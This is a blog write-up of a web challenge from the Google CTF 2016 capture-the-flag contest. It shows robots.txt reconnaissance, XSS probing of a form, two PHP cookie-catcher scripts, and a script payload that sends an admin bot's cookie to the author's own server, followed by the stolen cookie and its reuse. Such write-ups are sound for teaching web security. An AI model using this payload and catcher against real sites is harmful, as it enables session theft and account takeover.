


Wallowing Wallabies – Part One (Web) | Google CTF 2016 - Writeup
Posted on April 29, 2016Problem
Wallowing Wallabies provides enterprise contract management - we'd like to find out how easy it is to perform corporate espionage against them.
Solution
This is the pretty cool design we get when we load the exercise web page. For some reason I thought it could help me solve the exercise if I read the announcement, but no luck here. But I guess they are really secure, so much Enterprise! So much blue screen! ;)
And for the record, this page has no links or anything to interact with.
After a quick look in the source code, which give us nothing we thought of trying the /robots.txt, and yup, we found something:
User-agent: *
Disallow: /deep-blue-sea/
Disallow: /deep-blue-sea/team/
# Yes, these are alphabet puns :)
Disallow: /deep-blue-sea/team/characters
Disallow: /deep-blue-sea/team/paragraphs
Disallow: /deep-blue-sea/team/lines
Disallow: /deep-blue-sea/team/runes
Disallow: /deep-blue-sea/team/vendors
So, we found the deep-blue-sea! :D And started crawling these sub-pages, all denied until the last one: "/deep-blue-sea/team/vendors" where we found:

This page shows us a form that asks for our name and a text field to justify why we wanted access to their system. We started by sending a normal request to see the workflow of the page. As soon as we submitted the form, it showed us the details we entered. Ok, so far so good. Let's play a little.
First, once we have an automatic response showing us what we typed it should be some kind of bot replying, and also at the end of the submission it said "an admin will review your application as soon as possible", so maybe we can get something from this bot.
Let's check for vulnerabilities in the form, by simply adding:
Name
anotherik
Justification
<script>alert("Test!")</script>
We got the alert pop-up when the web page was giving us the reply, which proved to us that an XSS vulnerability was present on their page.
The next step was to think of a way to gain some kind of access using this vulnerability. So far we knew that the website used a bot to give us the reply and it didn't have a prevention to XSS in the text field.
For the sake of just trying we gave it a try to a simple:
<script>alert(document.cookie)</script>
And of course with no luck, 'cause the cookie was not set here.
I set up a server with a simple php cookie catcher script:
<?php
$cookie = $_GET['c'];
$ip = getenv ('REMOTE_ADDR');
$date = date("j F, Y, g:i a");
$fp = fopen('cookies.html', 'a');
fwrite($fp, 'Cookie: '.$cookie.'<br> IP: ' .$ip. '<br> Date and Time: ' .$date. '<br> <br> <br>');
fclose($fp);
?>
or you can go simpler:
<?php
if(isset($_GET["c"])){
$cookie = $_GET["c"];
file_put_contents("cookies.txt", $cookie);
}
?>
And the payload to the textfield form was:
<script>document.location="http://mydomain/cookie_catcher.php?c="+document.cookie</script>
Back in my server, I got the log inside the cookies.html which gave us the cookie:
cookie=green-mountains=eyJub25jZSI6IjU4MzYwMzIyZmFhYjVmZGQiLCJhbGxvd2VkIjoiXi9kZWVwLWJsdWUtc2VhL3RlYW0vdmVuZG9
ycy4qJCIsImV4cGlyeSI6MTQ2MTk3NjMwNX0=|1461976302|774b68429266fe1b836e57294299dab27d5481e6
So, now we have a cookie and when you have a cookie the best thing you have to do (other than eat it :P ) is use it, so we set up the cookie and it gave us the first flag:
